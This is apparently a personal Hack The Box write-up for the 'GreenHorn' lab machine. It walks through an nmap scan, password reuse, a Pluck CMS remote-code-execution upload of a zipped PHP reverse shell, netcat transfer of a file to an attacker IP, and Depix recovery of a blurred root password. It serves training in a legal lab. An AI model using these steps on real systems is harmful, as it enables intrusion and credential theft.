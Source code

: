 
2024-08-13 16:34

Source: #CTF #htb 

Tags: [[Linux]]
### Reconnaissance 

[[nmap]] scan tells us we have 5 ports open 
```
nmap -sS -p- -n -Pn -A --min-rate=9362 $IP
```
- `sS`: This option specifies a `SYN` scan  
- `-p-`: This option tells `nmap` to scan all `65,535` ports.  
- `-n`: This option is speeds up the scan by avoiding `DNS` resolution.  
- `-Pn`: This option disables host discovery, treating all hosts as online. This is useful for scanning hosts that may be blocking `ICMP` ping requests.  
- `--min-rate=9362`: This option sets the minimum number of packets per second to be sent during the scan. This speeds up the scan but may increase the likelihood of being detected by security systems.   
- `-A`: This option enables OS detection, version detection, script scanning, and traceroute.
```
http-title: Did not follow redirect to [http://greenhorn.htb/](http://greenhorn.htb/)
```
indicates that the HTTP service running on port 80 is configured to redirect requests to `[http://greenhorn.htb](http://greenhorn.htb/)` . However `nmap` did not follow this redirect because it doesn't resolve the `greenhorn.htb` domain name

Add an entry to your `/etc/hosts` file to map the `greenhorn.htb` domain to the IP address of the target machine

The URL parameter `file` might be used to include files on the server-side. This can potentially be exploited for Local File Inclusion (LFI) if the parameter is not properly sanitized. but this doesn't work
### Enumeration

original website served at `http://greenhorn.htb` doesn't give any hints therefore we try connecting to a different port `http://greenhorn.htb:3000` here the website served has a repo containing files of the website at the original address

on searching around a little we find that we have a password file in the `data/settings` directory. we check `data` cause `robots.txt` says not to.
we also find a `login.php` file, that doesn't take a username and the password is what we found hashed in the repo before
### Pluck CMS exploit

on logging in we find the version number, we find a [[RCE]] exploit for this on `exploitdb`
the exploit says that we can get `revshell` by uploading a zip file in the install module page of the application 
download a `php` `revshell` from `pentestmonkey` and zip it using 
```shell
zip phprevshell.zip phprevshell.php
```
### Privilege Escalation 

after getting a shell we see there is a directory name junior in the home directory that we can't access thereby suggesting that there might be a user named junior.
to check the files the junior owns use [[find]]
```bash
find / -type f -user junior 2>/dev/null
```
`su junior` to login as junior use the hashed password we found before. 
> **Remember to try out previously found passwords to login** 

along with the user.txt we also have a pdf that we can't open on that machine so we need to transfer that file to our system 
#### File transfer
##### File transfer using [[py]]

on pwnbox - 
```python 
python3 -m http.server 3333
```
on local kali
```bash
wget greenhorn.htb:3333/openvas.pdf
```
##### File Transfer using [[netcat]]

on local kali
```bash
nc -lvp 1234 > 'Using OpenVAS.pdf'
```
on pwnbox
```shell
nc 10.10.16.102 1234 < 'Using OpenVAS.pdf'
```
here the IP is your machines tun0 IP

to open the pdf file that has quotes use eg- `'OpenVAS.pdf'`
```shell
ll Using\ OpenVAS.pdf
```

the pdf contains some instructions to login as root but the password is blurred, it is blurred image of the password pasted on top of the pdf 
to 
#### Extract image form the pdf  
##### Method 1
```
pdfimages "./Using OpenVAS.pdf" greenhorn
```
##### Method 2
[Extract PDF images - quick, online, free - PDF24 Tools](https://tools.pdf24.org/en/extract-images)

to clean the blurred image use `Depix` tool [[stego]]
```
python3 depix.py \
    -p /path/to/your/input/image.png \
    -s images/searchimages/debruinseq_notepad_Windows10_closeAndSpaced.png \
    -o /path/to/your/output.png
```
after a while we get the password of the root user

### References
https://app.hackthebox.com/machines/GreenHorn

DEPIX - [GitHub - spipm/Depix: Recovers passwords from pixelized screenshots](https://github.com/spipm/Depix)

Walkthrough -->
[GreenHorn Hack the Box Walkthrough | by Ibrahim Isiaq Bolaji | Jul, 2024 | Medium](https://medium.com/@ibrahimbolaji50.ib/greenhorn-hack-the-box-walkthrough-2bdd839c4177)

[HackTheBox - GreenHorn CTF | by Zain | Jul, 2024 | Medium](https://medium.com/@3zain21/hackthebox-greenhorn-ctf-c2bc9c744951)
